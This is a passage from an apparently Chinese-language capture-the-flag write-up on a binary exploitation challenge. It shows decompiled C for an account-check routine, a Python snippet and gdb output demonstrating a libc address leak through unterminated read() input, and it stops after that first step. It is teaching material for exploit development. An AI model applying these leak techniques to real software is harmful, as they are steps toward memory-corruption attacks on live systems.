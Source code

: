 ```c
    printf("Set New Master Pass >> ");
    result = read(0, master, 0x10uLL);
  }
  return result;
}

signed __int64 check_account()
{
  printf("Input Account Name >> ");
  read(0, &buf, 0x40uLL);
  if ( !strcmp(account, &buf) )
  {
    if ( master[0] )
    {
      printf("Input Master Pass >> ", &buf);
      read(0, &buf, 0x40uLL);
      if ( !strcmp(master, &buf) )
        result = 1LL;
        
      else
      {
        puts("Wrong Pass...");
        result = 0LL;
      }
    }
    else
      result = 1LL;
  }
  else
  {
    printf("Account '%s' does not exist...\n", &buf);
    result = 0LL;
  }
  v1 = *MK_FP(__FS__, 40LL) ^ v3;
  return result;
}
```

###渗透
 完成了初步分析之后，我们开始一步步实现渗透，首先从leak libc开始
####Leak libc
&nbsp&nbsp&nbsp&nbsp如果想要使用Change master pass功能，首先得通过check_account的验证，check_account使用read接收输入，这意味着输入的字符串不会被'\x00'截断。当输入一个错误的account时，程序会打印输入，通过调试可以构造出合适长度的account来实现libc info leak from stack，这是一种常见了info leak手段。
```python
account = master = "ok"
reg(account, master)
info = leak('9', 'A' * 0x18)
```
```plain
gdb-peda$ x/4gx $rax
0x7ffee72469c0:	0x5858585858585858	0x5858585858585858
0x7ffee72469d0:	0x5858585858585858	0x00007faba5e3e620
gdb-peda$ x 0x00007faba5e3e620
0x7faba5e3e620 <_IO_2_1_stdout_>:	0x00000000fbad2887
```
